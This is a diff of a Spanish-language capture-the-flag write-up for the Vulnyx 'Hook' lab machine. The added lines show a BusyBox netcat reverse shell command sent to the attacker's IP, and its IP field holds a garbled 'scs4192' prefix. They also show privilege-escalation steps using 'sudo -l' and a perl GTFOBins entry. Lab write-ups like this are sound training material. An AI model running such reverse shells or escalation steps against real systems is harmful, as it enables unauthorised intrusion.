

Before and after one commit to Koh4kU/Writeups, a Markdown page: Vulnyx/Hook/writeup.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Vulnyx/Hook/writeup.md
+++ b/Vulnyx/Hook/writeup.md
@@ -27,8 +62,23 @@ Viendo este RCE, vamos a enviarnos una reverse shell a nuestro equipo. Probé di
 
+Viendo este RCE, vamos a enviarnos una reverse shell a nuestro equipo. Probé diferentes formas y solo me funcionó la reverse shell con el uso de 'BusyBox' y netcat:
+```shell
 busybox	nc scs4192.168.1.103 445 -e /bin/bash
+```
+BusyBox es una herramienta de software que proporciona una colección de utilidades de Unix en un único ejecutable compacto, diseñado específicamente para sistemas embebidos o con recursos limitados.
+
+<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/whoami.png>
+
+## Privilege Escalation
 
 Buscamos escalar privilegios a algún usuario del sistemas
+```shell
 ls -la /home
+```
+Vemos un directorio "noname" en el que solo los usuarios y grupos de noname pueden acceder
+```shell
+sudo -l
+```
+<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/sudo-l.png>
 
-Vemos un directorio "noname" en el que solo los usuarios y grupos de noname pueden acceder
+Podemos observar que al chequear los permisos de sudo, tenemos permisos para ejecutar perl como noname y sin contraseña. Si hacemos una búsqueda rápida, veremos que en GTFOBins, hay una entrada para perl:
 
````
Also changed, not shown: other parts of Vulnyx/Hook/writeup.md (+66 -23 lines).
